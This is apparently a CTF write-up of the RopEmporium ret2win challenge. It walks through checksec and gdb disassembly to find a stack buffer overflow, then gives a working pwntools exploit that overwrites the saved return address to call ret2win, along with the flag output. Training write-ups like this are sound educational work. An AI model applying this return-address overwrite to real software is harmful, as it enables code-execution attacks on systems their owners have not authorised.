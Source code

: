 ```yaml
---
title: RopEmporium - Ret2win
date: 2022-08-17 23:20:18
tags: [ropemporium, rop]
---
```


> Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to.

<!-- more -->

The binaries for the challenges can be downloaded from the author`s website [ropemporium](https://ropemporium.com).The goal of first challenge is to call the **ret2win** function.

After downloading the binary, the first is to check binary protection enabled on the binary using `checksec` utility.

```bash
vx@archie:ret2win$ checksec --file ret2win
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Only **NX** (Not executable) is enabled on the binary meaning we cannot execute code stored on the stack like `shellcode`. Toe analyze the behavior of the program we will use `gdb`. gdb is a tool that enables one to inspect the behavior of binaries at runtime.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
(gdb)
```

The binary has various functions has as shown in the output above.For initial analysis we start at the `main` function which is the entrypoint of our program.

```nasm
(No debugging symbols found in ret2win)
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret
End of assembler dump.
(gdb)
```

From the initial analysis of the main function,main call an interesting function called **pwnme**. Next is to disassemble **pwnme** function to understand the behavior.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave
   0x0000000000400755 <+109>:	ret
End of assembler dump.
```

From analysis of the above assembly code, we fill a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values present memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer as shown in the stack diagram below.

![](/images/ropemporium/stack.png)

Next function is **read** function, which reads from the standard input file descriptor and stores in the specified buffer.From the disassembled code we are reading 0x38 bytes from the user input and storing it in our buffer.

```c
read(0, *[rbp-0x20], 0x38) //0 is file descriptor stdin
```

Because we are reading more than what the buffer can hold, we corrupt the adjacent memory regions therefore causing a stack buffer overflow. Therefore in order to control the return address as shown in the stack image above is to fill the buffer, overwrite the `rbp` register and control the return address with **ret2win** function address.

The exploit code for this ret2win function is,

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./ret2win')

payload = b"A" * 32 # fill the buffer
payload += b"B" * 8  #overwrite saved base pointer
payload += pwn.p64(0x400756)  #Address of ret2win function
io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the above script we get correct flag.

```bash
vx@archie:ret2win$ python3 x.py
[+] Starting local process './ret2win': pid 45427
[*]  Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2win' stopped with exit code 0 (pid 45427)
```
